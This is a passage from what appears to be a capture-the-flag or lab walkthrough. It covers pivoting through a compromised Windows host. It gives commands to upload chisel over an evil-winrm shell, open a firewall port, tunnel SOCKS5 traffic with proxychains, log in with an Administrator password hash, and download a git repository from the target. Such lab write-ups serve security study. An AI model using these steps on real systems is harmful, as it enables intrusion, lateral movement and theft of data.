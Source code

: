 Use chisel to set up the proxychain
- Download chisel.exe from the public repo: `wget https://github.com/ll1a4x/CTF_payloads/raw/main/chisel.exe`
- Upload chisel.exe via evil-win shell: `upload ./chisel.exe chisel-ll2022.exe`
- Config the firewall rule and run the chisel as the server on .150
```
netsh advfirewall firewall add rule name="chisel-ll2022" dir=in action=allow protocol=tcp localport=8682

C:\Users\Administrator\Documents\chisel-ll2022.exe server -p 8682 --socks5
```
- In Kali, update proxychains config: `sudo vi /etc/proxychains.conf`
```
[ProxyList]
socks5 127.0.0.1 8080
```
- Run the chisel as the client: `chisel client 10.200.90.150:8682 8080:socks`

![16chisel](imgs/16chisel.png)

Enumerate .100 web app by proxychains and FoxyPRoxy in the Firefox
- In FoxyProxy set the proxy type to be socks5 on 127.0.0.1 on port 8080
- http://10.200.90.100/
	- Note: it's slowly loading the web on .100 due to the double port redirections by sshuttle and chisel.
	- This website looks like a copy from the git server 10.200.90.150
- Use whatweb to see the banners: `sudo proxychains whatweb http://10.200.90.100/`
	- We see `PHP/7.4.11`
- On a new terminal: `evil-winrm -u Administrator -H 37db630168e5f82aafa8461e05c6bbd1 -i 10.200.90.150`
	- After examining the directory `c:\gitstack`, we found an intersting directory `C:\gitstack\repositories\Website.git`
	- Download the Website.git in the evil-winrm: `download C:\gitstack\repositories\Website.git ./Website.git`
- In Kali:
```
cd Website.git

mv 'C:\gitstack\repositories\Website.git' .git

cd ..
```
